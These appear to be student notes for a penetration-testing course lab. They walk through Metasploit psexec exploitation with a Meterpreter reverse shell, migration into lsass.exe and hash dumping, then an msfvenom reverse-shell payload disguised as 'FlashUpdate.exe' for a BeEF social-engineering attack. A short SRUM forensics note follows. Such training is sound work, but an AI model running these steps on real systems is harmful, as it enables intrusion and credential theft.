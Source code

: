 # Lab 4 Public Facing and Drive-By Attacks

## 4.1 Metasploit

```bash
# start Metasploit
msfconsole -q

# searches exploits for psexec
msf6 > search type:exploit psexec

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/local/current_user_psexec  1999-01-01       excellent  No     PsExec via Current User Token
   1  exploit/windows/local/wmi                  1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
   2  exploit/windows/smb/ms17_010_psexec        2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  exploit/windows/smb/psexec                 1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   4  exploit/windows/smb/webexec                2018-10-24       manual     No     WebExec Authenticated User Code Execution

# select a particular exploit
msf6 > use exploit/windows/smb/psexec

# shows all options/ params for an exploit
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

# Configure exploit settings (default payload is reverse shell); RHOSTS = target
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.0.1
RHOSTS => 10.10.0.1
msf6 exploit(windows/smb/psexec) > set SMBUSER sec504
SMBUSER => sec504
msf6 exploit(windows/smb/psexec) > set SMBPASS sec504
SMBPASS => sec504
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.75.1
LHOST => 10.10.75.1
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.75.1:4444 
[*] 10.10.0.1:445 - Connecting to the server...
[*] 10.10.0.1:445 - Authenticating to 10.10.0.1:445 as user 'sec504'...
[*] 10.10.0.1:445 - Selecting PowerShell target
[*] 10.10.0.1:445 - Executing the payload...
[+] 10.10.0.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.0.1
[*] Meterpreter session 1 opened (10.10.75.1:4444 -> 10.10.0.1:1547) at 2022-07-15 16:13:36 +0000

meterpreter > 

# Put meterpreter in bg
meterpreter > background
[*] Backgrounding session 1...

# Foreground meterpreter
msf6 exploit(windows/smb/psexec) > sessions 1
[*] Starting interaction with 1...

# Execute a command in meterpreter and interact with the output
meterpreter > execute -if systeminfo
Process 1852 created.
Channel 1 created.

Host Name:                 SEC504STUDENT
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-10181-97955-AA722
Original Install Date:     4/1/2019, 1:14:35 AM
System Boot Time:          7/14/2022, 5:40:12 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual 
...

# Migrate to processes with access to passwords, then dump passwords
meterpreter > migrate -N lsass.exe
[*] Migrating from 2412 to 676...
[*] Migration completed successfully.

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Sec504:1000:aad3b435b51404eeaad3b435b51404ee:864d8a2947723c4264598997c1d67a83:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9679f78eec859fdedb8c208c8fcf4abf:::
```

May need to run `exploit` more than once if all settings are valid.

Additional relevant Meterpreter commands:

- getpid: identify our process
- help: retrieve other commands
- ps: list running processes
- getuid: retrieve current user info
- hashdump: retrieve passwords

Analyze Metasploit attacks with DeepBlueCLI.
## 4.2 BeEF

BeEF: tool for exploiting browsers and conducting client-side social engineering attacks.

```bash
# Make payload
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp /
lhost=10.10.75.1 lport=4444 -f exe -o /tmp/FlashUpdate.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: /tmp/FlashUpdate.exe

# Setup the reverse shell handler
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.75.1
LHOST => 10.10.75.1
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.75.1:4444
```

Beef control panel:

![Beef Control](img/lab4/beef1.PNG)

Social engineering presentation to user:

![Social engineering client pov](img/lab4/beef2.PNG)

```bash
# Proof of exploit
meterpreter > sysinfo
Computer        : SEC504STUDENT
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : SEC504
Logged On Users : 2
Meterpreter     : x86/windows
```

## 4.3 System Resource Usage Database Analysis (srum-dump)

Used to identify anomalous network behavior on a Windows machine.

SRUM database: Windows 8/10 tool used by OS to record detailed info about the system resource utilization.

Location of SRUM data: `C:/Windows/System32/sru/SRUDB.dat`

Some of this information is available from Task Manager

## 4.4 Command Injection Attack


## 4.5 XSS Attack


## 4.6 SQL Injection (SQLMap)


## 4.7 Cloud SSRF and IMDS Attack
